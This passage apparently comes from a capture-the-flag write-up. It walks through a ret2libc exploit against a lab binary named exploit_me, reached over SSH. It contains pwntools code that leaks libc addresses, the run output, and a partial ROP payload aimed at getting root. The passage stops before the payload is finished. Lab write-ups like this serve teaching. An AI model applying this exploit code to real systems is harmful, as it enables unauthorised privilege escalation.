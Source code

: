 ```python
puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")
```

With the script from above, we can get this:

```python
python3 root.py
[+] Connecting to 10.10.142.145 on port 22: Done
[*] zeeshan@10.10.142.145:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
    SHSTK:    Disabled
    IBT:      Disabled
[*] Loaded 14 cached gadgets for './exploit_me'
[+] Starting remote process None on 10.10.142.145: pid 7558
[!] ASLR is disabled for '/exploit_me'!
Puts address: 0x7f2227e826a0
Gets address: 0x7f2227e81d90
Setuid address: 0x7f2227ee0330
```

![](../images/Pasted%20image%2020250328185828.png)

Now, with each address, we can calculate the offset to the base address using libc:

![](../images/Pasted%20image%2020250328185935.png)

Let's download the second file, the first file didn't work for me and simply do the following payload to get root:



```python
from pwn import *

user = "zeeshan"
port = 22
host = "antisoft.thm"
private_key = "./id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

context.binary = binary = ELF("./exploit_me", checksec=False)

_ROP = ROP(binary)

padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts)
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
```